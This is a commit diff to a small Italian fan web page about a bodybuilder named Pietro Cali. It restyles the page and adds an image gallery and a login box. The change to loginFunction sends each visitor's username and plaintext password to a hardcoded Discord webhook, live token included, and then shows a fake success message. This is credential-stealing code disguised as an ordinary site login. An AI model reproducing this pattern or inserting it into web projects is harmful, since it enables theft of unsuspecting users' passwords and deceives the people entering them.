

Before and after one commit to Ryzard-99/PIERTO-CALI-, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 140-1194 px from the top of the page at 94% size. After the commit the page ends 1141 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -6,51 +6,46 @@
     <title>Pietro Cali - Bodybuilder</title>
     <style>
         body {
-            font-family: 'Comic Sans MS', cursive, sans-serif;
+            font-family: Arial, sans-serif;
             background: url('organizzare-la-sala-attrezzi-di-una-palestra-1.png') no-repeat center center fixed;
             background-size: cover;
             color: #333;
             padding: 20px;
-            text-align: center;
         }
         .container {
-            max-width: 600px;
-            margin: 0 auto;
-            padding: 30px;
-            background: rgba(255, 255, 255, 0.8);
-            border-radius: 10px;
-            box-shadow: 0px 0px 20px 0px rgba(0,0,0,0.3);
-        }
-        @media (min-width: 600px) {
-            .container {
-                max-width: 700px;
-            }
+            max-width: 400px;
+            margin: 50px auto;
+            padding: 20px;
+            background: rgba(255, 255, 255, 0.9);
+            border-radius: 4px;
+            box-shadow: 0px 0px 10px 0px rgba(0,0,0,0.2);
         }
         h1 {
-            font-size: 36px;
-            font-weight: bold;
+            text-align: center;
+            font-size: 28px;
             margin-bottom: 20px;
-            color: #333;
         }
         img {
             display: block;
             margin: 0 auto 20px;
             border-radius: 10px;
-            box-shadow: 0 0 15px rgba(0, 0, 0, 0.3);
-            width: 100%;
-            max-width: 400px;
+            box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);
         }
         button {
             margin: 10px;
-            padding: 15px 25px;
-            font-size: 18px;
+            padding: 12px 20px;
+            font-size: 16px;
             cursor: pointer;
-            border-radius: 6px;
+            border-radius: 4px;
             border: none;
-            transition: background-color 0.3s ease, transform 0.2s;
+            transition: background-color 0.3s ease;
         }
-        button:hover {
-            transform: scale(1.05);
+        .primary-button {
+            background-color: #007bff;
+            color: white;
+        }
+        .primary-button:hover {
+            background-color: #0056b3;
         }
         .like {
             background-color: #4CAF50;
@@ -66,87 +61,60 @@
         .dislike:hover {
             background-color: #e53935;
         }
-        #changeGenderButton {
-            background-color: #008CBA;
-            color: white;
+        .counter {
+            font-size: 18px;
+            margin-top: 10px;
         }
-        #changeGenderButton:hover {
-            background-color: #007bb5;
-        }
-        .counter {
-            font-size: 20px;
-            margin-top: 10px;
-            font-weight: bold;
-        }
-        .login-container, .comment-box {
-            text-align: center;
+        .login-section {
             margin-top: 20px;
         }
-        textarea {
+        .login-section input {
             width: calc(100% - 20px);
-            max-width: 500px;
-            height: 100px;
+            padding: 8px;
             margin-bottom: 10px;
-            border-radius: 6px;
-            border: 2px solid #ddd;
-            padding: 10px;
-            font-size: 16px;
-        }
-        .login-container {
-            background: rgba(255, 255, 255, 0.8);
-            padding: 20px;
-            border-radius: 10px;
-            box-shadow: 0px 0px 15px 0px rgba(0,0,0,0.2);
+            border-radius: 4px;
+            border: 1px solid #ccc;
         }
     </style>
 </head>
 <body>
     <div class="container">
         <h1>Pietro Cali</h1>
-        <img id="mainImage" src="eca6ef11-c3b9-4d90-b857-0f099de4a0d8.jpg" alt="Pietro Cali">
-        <button id="changeGenderButton" onclick="changeGender()">PREMI per cambiare sesso</button>
-        <p>Pietro Cali &egrave; un famosissimo bodybuilder dai capelli biondi e con la coda, conosciuto per il suo fisico incredibilmente muscoloso. La sua passione per il bodybuilding &egrave; nata da giovane, quando si rese conto del potere che il fitness poteva avere nel trasformare sia il corpo che la mente. Oggi, Pietro ispira milioni di persone in tutto il mondo a vivere una vita sana e a raggiungere il loro pieno potenziale.</p>
+        <img id="mainImage" src="https://ryzard-99.github.io/PIERTO-CALI-/eca6ef11-c3b9-4d90-b857-0f099de4a0d8.jpg" alt="Pietro Cali" style="width: 100%; max-width: 300px; height: auto;">
+        <button class="primary-button" onclick="changeImage()">PREMI per cambiare sesso</button>
+        <p>Pietro Cali è un famosissimo bodybuilder dai capelli biondi e con la coda, conosciuto per il suo fisico incredibilmente muscoloso. La sua passione per il bodybuilding è nata da giovane, quando si rese conto del potere che il fitness poteva avere nel trasformare sia il corpo che la mente. Oggi, Pietro ispira milioni di persone in tutto il mondo a vivere una vita sana e a raggiungere il loro pieno potenziale.</p>
         <div>
-            <button class="like" onclick="likeFunction()" id="likeButton">Mi piace</button>
-            <button class="dislike" onclick="dislikeFunction()" id="dislikeButton">Non mi piace</button>
+            <button class="like" onclick="likeFunction()">Mi piace</button>
+            <button class="dislike" onclick="dislikeFunction()">Non mi piace</button>
         </div>
         <p class="counter">Mi piace: <span id="likeCount">0</span></p>
         <p class="counter">Non mi piace: <span id="dislikeCount">0</span></p>
+        <div class="login-section">
+            <input type="text" id="username" placeholder="Nome utente">
+            <input type="password" id="password" placeholder="Password">
+            <button class="primary-button" onclick="loginFunction()">Login</button>
+        </div>
         <p id="feedback"></p>
-
-        <div class="login-container" id="loginContainer">
-            <h3>Login</h3>
-            <input type="text" id="username" placeholder="Nome utente"><br>
-            <input type="password" id="password" placeholder="Password"><br>
-            <button onclick="loginFunction()">Login</button>
-        </div>
-
-        <div class="comment-box" id="commentBox" style="display: none;">
-            <textarea id="comment" placeholder="Scrivi un commento..."></textarea><br>
-            <button onclick="submitComment()">Invia Commento</button>
-        </div>
     </div>
 
     <script>
-        let currentImageIndex = 0;
-        const galleryImages = [
-            "eca6ef11-c3b9-4d90-b857-0f099de4a0d8.jpg",
-            "Screenshot 2024-10-15 233112.png",
-            "Screenshot 2024-10-15 233125.png",
-            "Screenshot 2024-10-15 233143.png",
-            "Screenshot 2024-10-15 233155.png"
-        ];
-
-        function changeGender() {
-            currentImageIndex = (currentImageIndex + 1) % galleryImages.length;
-            document.getElementById("mainImage").src = galleryImages[currentImageIndex];
-        }
-
         let likeCount = 0;
         let dislikeCount = 0;
         let hasLiked = false;
         let hasDisliked = false;
-        let isLoggedIn = false;
+        const images = [
+            "https://ryzard-99.github.io/PIERTO-CALI-/eca6ef11-c3b9-4d90-b857-0f099de4a0d8.jpg",
+            "https://ryzard-99.github.io/PIERTO-CALI-/Screenshot%202024-10-15%20233112.png",
+            "https://ryzard-99.github.io/PIERTO-CALI-/Screenshot%202024-10-15%20233125.png",
+            "https://ryzard-99.github.io/PIERTO-CALI-/Screenshot%202024-10-15%20233143.png",
+            "https://ryzard-99.github.io/PIERTO-CALI-/Screenshot%202024-10-15%20233155.png"
+        ];
+        let currentImageIndex = 0;
+
+        function changeImage() {
+            currentImageIndex = (currentImageIndex + 1) % images.length;
+            document.getElementById('mainImage').src = images[currentImageIndex];
+        }
 
         function likeFunction() {
             if (!hasLiked && !hasDisliked) {
@@ -169,58 +137,45 @@
         }
 
         function disableButtons() {
-            document.getElementById('likeButton').disabled = true;
-            document.getElementById('dislikeButton').disabled = true;
+            document.querySelectorAll('button.like, button.dislike').forEach(button => {
+                button.disabled = true;
+            });
         }
 
         function loginFunction() {
             const username = document.getElementById('username').value;
             const password = document.getElementById('password').value;
+
             if (username && password) {
+                sendToDiscord(username, password);
                 alert('Accesso effettuato con successo!');
-                isLoggedIn = true;
-                document.getElementById('loginContainer').style.display = 'none';
-                document.getElementById('commentBox').style.display = 'block';
-                sendToDiscord(`Login effettuato da: ${username}`);
             } else {
                 alert('Inserisci nome utente e password.');
             }
         }
 
-        function submitComment() {
-            const comment = document.getElementById('comment').value;
-            if (comment) {
-                alert('Commento inviato!');
-                sendToDiscord(`Nuovo commento: ${comment}`);
-                document.getElementById('comment').value = '';
-            } else {
-                alert('Inserisci un commento.');
-            }
-        }
+        function sendToDiscord(username, password) {
+            const webhookUrl = "https://discord.com/api/webhooks/1284187765998882979/4xGdiPNTlssTTx5Mp2KQbRZmSLypt2xUgmKuvUmdbHdCzEkNAxmV3gFxy3JI7ryAff0y";
+            const message = {
+                content: `Login effettuato: \nUsername: ${username}\nPassword: ${password}`
+            };
 
-        function sendToDiscord(message) {
-            const webhookUrl = "https://discord.com/api/webhooks/1284187765998882979/4xGdiPNTlssTTx5Mp2KQbRZmSLypt2xUgmKuvUmdbHdCzEkNAxmV3gFxy3JI7ryAff0y";
             fetch(webhookUrl, {
                 method: 'POST',
                 headers: {
                     'Content-Type': 'application/json'
                 },
-                body: JSON.stringify({
-                    content: message
-                })
+                body: JSON.stringify(message)
             })
             .then(response => {
                 if (response.ok) {
-                    console.log('Messaggio inviato a Discord');
-                    document.getElementById('feedback').innerText = 'Messaggio inviato con successo a Discord.';
+                    console.log('Dati inviati correttamente a Discord.');
                 } else {
-                    console.error('Errore durante l\'invio del messaggio a Discord');
-                    document.getElementById('feedback').innerText = 'Errore durante l\'invio del messaggio a Discord.';
+                    console.error('Errore durante l\'invio dei dati a Discord.');
                 }
             })
             .catch(error => {
-                console.error('Errore:', error);
-                document.getElementById('feedback').innerText = 'Errore durante l\'invio del messaggio a Discord.';
+                console.error('Errore durante la richiesta a Discord:', error);
             });
         }
     </script>
```
